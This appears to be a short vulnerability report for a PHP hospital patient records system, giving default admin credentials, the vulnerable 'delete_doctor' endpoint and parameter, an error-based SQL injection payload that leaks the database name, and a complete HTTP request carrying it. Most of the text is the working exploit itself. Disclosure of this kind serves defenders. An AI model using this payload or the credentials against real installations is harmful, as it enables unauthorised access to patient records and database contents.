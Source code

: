 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/classes/Master.php?f=delete_doctor

Vulnerability location: /hprms/classes/Master.php?f=delete_doctor, id

Current database name: hprms_db ,length is 8

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /hprms/classes/Master.php?f=delete_doctor HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171824093-c89b3912-c3c6-48d3-8961-63f8c0abf521.png)
